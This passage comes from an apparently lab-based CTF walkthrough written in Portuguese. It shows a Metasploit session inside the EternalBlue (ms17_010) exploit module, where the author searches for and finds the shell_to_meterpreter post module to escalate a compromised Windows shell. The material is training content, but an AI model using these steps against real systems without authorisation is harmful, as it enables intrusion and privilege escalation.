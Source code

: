 Com isso temos a confirmação que a sessão foi criada com sucesso.

![access](access.png)

---

## **<a id="escalate">• Escalate.</a>**

### **<a id="9">1. What is the name of the post module we will use?</a>**

Vamos utilizar o `search` para procurar por um módulo que nos permita obter uma shell com privilégios de administrador.

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

```
